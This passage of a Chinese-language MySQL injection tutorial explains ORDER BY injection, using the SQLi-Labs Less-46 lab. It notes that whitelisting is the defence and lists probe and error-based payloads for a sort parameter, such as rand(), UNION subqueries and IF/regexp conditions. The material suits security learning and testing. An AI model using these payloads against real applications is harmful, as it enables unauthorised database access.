 ![image.png](./MySQL注入基础.assets/2023_05_19_10_41_19_xk3HTvnl.png)



## order by 注入
order by 注入通常出现在排序中，前端展示的表格，某一列需要进行升序或者降序排列，或者做排名比较的时候常常会用到`order by`排序，`order by`在select语句中，紧跟在`where [where condition]`后，且order by 注入无法使用预编译来防御，由于order by 后面需要紧跟`column_name`，而预编译是参数化字符串，而`order by`后面紧跟字符串就会提示语法错误，通常防御order by 注入需要使用白名单的方式。
以SQLi-Labs Less46 为例
通过order by 列名，根据排序返回的情况来判断是否存在，或者使用超大数，构成SQL语句错误
```basic
?sort=rand()
?sort=rand(1=1)
?sort=rand(1=2)
?sort=9999
```
![image.png](./MySQL注入基础.assets/2023_05_19_10_41_20_jYxFJnvh.png)

基于报错的注入来判断

- 返回多条记录导致报错
```basic
?sort=(select 1 union select 2)
```
```basic
?sort=IF(1=1,1,(select+1 from information_schema.tables)) //正确
?sort=IF(1=2,1,(select 1 from information_schema.tables)) //错误
```

- regexp
```basic
?sort=(select 1 regexp if(1=1,1,0x00)) // 正确
?sort=(select 1 regexp if(1=2,1,0x00)) // 错误
```

- 报错注入函数
